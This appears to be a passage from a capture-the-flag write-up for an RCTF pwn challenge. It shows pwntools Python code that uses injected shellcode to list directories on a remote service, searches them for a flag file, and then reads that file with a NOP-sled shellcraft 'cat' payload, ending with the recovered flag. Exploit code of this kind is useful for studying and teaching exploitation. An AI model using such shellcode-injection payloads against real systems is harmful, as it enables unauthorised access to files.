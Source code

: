 ```python
payload = asm(payload)
stage2 = payload

def run(path):
  sh.send(path.ljust(100,'\x00'))
  return sh.recv(timeout=1)

def parse(data):
  files = []
  i = 0
  while i < len(data):
    i += 8
    i += 8
    l = u64(data[i:i+2].ljust(8,'\x00')) - 18
    i += 2

    files.append(data[i:i+l].split('\x00')[0])
    i += l
  return files

with open('./files') as f:
  all_files = json.loads(f.read())  
try:
  while len(all_files) > 0:
    file = all_files.pop(0)
    new_files = parse(run(file))
    new_files = filter(lambda x: x != '.' and x != '..', new_files)
    print new_files
    for each in new_files:
      if 'flag' in each:
        print 'FOUND IT'
        print file+'/'+each
        print 'hello'
        exit(0)
    new_files = map(lambda x: file+'/'+x, new_files)
    
    all_files.extend(new_files)
    print file
except:
  print all_files
  with open('./files', 'w') as f:
    f.write(json.dumps(all_files))

print 'job done, nothing found'
```

With this code, I found the flag file located at `./flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag'`.

Now with a simple payload, we can read out the flag:

```python
sh.sendline('\x90'*10+asm(shellcraft.amd64.linux.cat('./flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag')))
sh.interactive()
```

flag: `rctf{1h48iegin3egh8dc5ihu}`
